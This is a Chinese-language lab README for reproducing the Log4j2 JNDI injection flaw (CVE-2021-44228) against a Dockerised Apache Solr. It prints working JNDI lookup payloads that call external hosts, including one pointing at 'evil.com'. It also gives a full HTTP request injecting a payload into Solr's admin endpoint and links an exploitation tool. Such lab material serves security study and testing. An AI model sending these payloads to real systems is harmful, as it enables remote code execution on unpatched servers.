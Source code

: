 # Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 漏洞环境

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![](1.png)

实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/su18/JNDI)。利用完毕后，可见`touch /tmp/success`已经成功被执行：

![](2.png)
